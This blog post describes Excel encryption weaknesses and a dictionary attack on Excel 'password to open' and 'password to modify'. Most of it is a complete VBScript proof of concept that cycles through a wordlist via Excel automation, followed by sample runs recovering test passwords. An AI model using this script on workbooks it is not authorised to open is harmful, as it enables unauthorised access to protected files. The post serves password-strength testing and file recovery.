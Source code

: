 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
---
```


![Logo](/assets/images/dictionary.jpg)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing [security of encryption algorithms](http://www.oraxcel.com/projects/encoffice/help/How_safe_is_Excel_encryption.html) for Excel spreadsheets. The bottom line is that:
* Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings.
* Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
* Encryption in Excel 95, 97 and 2000 is NOT secure at all :)

Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link. Another good reference on Excel 2007 Encryption Strength is [this discussion](https://security.stackexchange.com/questions/17702/excel-2007-encryption-strength).

## Setting password to open/modify
Changing/removing the **_password to open_** a file is pretty straight-forward in Excel 2007-2010: File menu->Info->Encrypt with password. 
I found that changing the **_password to modify_** is not so straight-forward. To set/remove a "read-only" password, from the _Save_ or _Save As_ dialog boxes, select _General Options_ from the _Tools_ drop-down menu to open the _General Options_ dialog box. There, in the _Password to modify box_, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small Visual Basic script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. I've used VB because it already had support for opening Excel and for passwords. It's good enough for a PoC. This could also be extended to something like the rules in [jtr](https://github.com/magnumripper/JohnTheRipper) to intelligently guess/brute-force passwords, possibly based on the very efficient [KoreLogic John rules](http://contest-2010.korelogic.com/rules.html). 

Currently it's just a proof of concept, and it's very slow, but it could be extended to use more threads or optimized:
```vb
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
```
## Usage

An example of how to use it on a test document with these 2 passwords set:
## 1. Find password to open:
```bash
> cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
```

## 2. Find password to modify: 
```bash
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper
```
